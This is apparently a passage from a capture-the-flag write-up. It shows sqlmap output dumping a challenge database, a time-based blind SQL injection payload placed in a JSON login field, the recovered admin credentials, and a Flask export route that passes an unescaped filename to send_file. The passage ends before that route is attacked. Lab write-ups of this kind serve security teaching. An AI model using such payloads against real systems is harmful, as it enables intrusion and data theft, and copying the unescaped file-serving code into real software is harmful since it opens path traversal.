 ```
[19:28:59] [INFO] retrieved: 'Lone Star Linkup'
[19:28:59] [INFO] retrieved: 'Proxima Centauri'
[19:28:59] [INFO] retrieved: 'Kepler-438b'
[19:28:59] [INFO] retrieved: 'communication.mp3'
[19:29:00] [INFO] retrieved: '4'
[19:29:00] [INFO] retrieved: 'Small World Symposium'
[19:29:00] [INFO] retrieved: 'TRAPPIST-1h'
[19:29:00] [INFO] retrieved: 'Boop'
[19:29:00] [INFO] retrieved: 'communication.mp3'
[19:29:00] [INFO] retrieved: '5'
[19:29:00] [INFO] retrieved: 'Jelly World Japes'
[19:29:01] [INFO] retrieved: 'Winky'
Database: orbital
Table: communication
[5 entries]
+----+-----------------------------+------------------+-------------+-------------------+
| id | name                        | source           | destination | downloadable      |
+----+-----------------------------+------------------+-------------+-------------------+
| 1  | Ice World Calling Red Giant | Titan            | Arcturus    | communication.mp3 |
| 2  | Spiral Arm Salutations      | Andromeda        | Vega        | communication.mp3 |
| 3  | Lone Star Linkup            | Proxima Centauri | Trappist-1  | communication.mp3 |
| 4  | Small World Symposium       | TRAPPIST-1h      | Kepler-438b | communication.mp3 |
| 5  | Jelly World Japes           | Winky            | Boop        | communication.mp3 |
+----+-----------------------------+------------------+-------------+-------------------+

[19:29:01] [INFO] table 'orbital.communication' dumped to CSV file '/home/kali/.local/share/sqlmap/output/68.183.45.143/dump/orbital/communication.csv'
[19:29:01] [WARNING] HTTP error codes detected during run:
403 (Forbidden) - 913 times, 500 (Internal Server Error) - 546 times
[19:29:01] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/68.183.45.143'

[*] ending @ 19:29:01 /2023-03-20/
```
Running sqlmap quickly picked up the proper payload to use for SQL injection. The payload utilized:
```
Payload: {"username":"admin" AND (SELECT 4429 FROM (SELECT(SLEEP(5)))Llei)-- Mhzj","password":"password"}
```
And fortunately with this, sqlmap is able to grab admin's password from the database. The login credentials are as follows:
```
{"username":"admin","password":"ichliebedich"}
```
Using these credentials gets us in.

Now that we are in, we can see a lot of static information on this page but no flag in plain sight. At the bottom of the page, we see an export option that will prompt us to download a `communication.mp3` file. We saw some information on an export page in the source code, so let's revisit this to get a better idea on what's going on.
In blueprints/test.py:
```
def exportFile():
    if not request.is_json:
        return response('Invalid JSON!'), 400
    
    data = request.get_json()
    communicationName = data.get('name', '')

    try:
        # Everyone is saying I should escape specific characters in the filename. I don't know why.
        return send_file(f'/communications/{communicationName}', as_attachment=True)
    except:
        return response('Unable to retrieve the communication'), 400
```